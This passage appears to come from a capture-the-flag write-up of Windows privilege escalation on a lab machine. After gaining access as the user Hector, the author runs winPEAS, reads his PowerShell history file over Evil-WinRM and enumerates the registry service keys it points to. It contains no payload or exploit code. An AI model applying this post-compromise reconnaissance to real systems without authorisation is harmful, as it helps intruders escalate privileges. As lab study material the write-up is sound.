 ## Getting Root

As Hector, let's execute winPEAS.bat. You can see the complete log in "winPEAS.log".
The important things I've viewed are:

"C:\Users\Hector\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt" with this content:

```
*Evil-WinRM* PS C:\Users\Hector\appdata\roaming\microsoft\Windows\Powershell\PSReadline> type consolehost_history.txt
get-childitem HKLM:\SYSTEM\CurrentControlset | format-list
get-acl HKLM:\SYSTEM\CurrentControlSet | format-list
```

This service also appears in the log:
```
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ExtensionAgents
    W3SVC    REG_SZ    Software\Microsoft\W3SVC\CurrentVersion

```
So let's see what Hector saw:
```
*Evil-WinRM* PS C:\inetpub\wwwroot> get-childitem HKLM:\SYSTEM\CurrentControlset | format-list


Property      : {BootDriverFlags, CurrentUser, EarlyStartServices, PreshutdownOrder...}
PSPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control
PSParentPath  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset
PSChildName   : Control
PSDrive       : HKLM
PSProvider    : Microsoft.PowerShell.Core\Registry
PSIsContainer : True
SubKeyCount   : 121
View          : Default
Handle        : Microsoft.Win32.SafeHandles.SafeRegistryHandle
ValueCount    : 11
Name          : HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Control

Property      : {NextParentID.daba3ff.2, NextParentID.61aaa01.3, NextParentID.1bd7f811.4, NextParentID.2032e665.5...}
PSPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Enum
PSParentPath  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset
PSChildName   : Enum
PSDrive       : HKLM
PSProvider    : Microsoft.PowerShell.Core\Registry
PSIsContainer : True
SubKeyCount   : 17
View          : Default
Handle        : Microsoft.Win32.SafeHandles.SafeRegistryHandle
ValueCount    : 27
Name          : HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Enum

Property      : {}
PSPath        : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Hardware Profiles
PSParentPath  : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset
PSChildName   : Hardware Profiles
PSDrive       : HKLM
```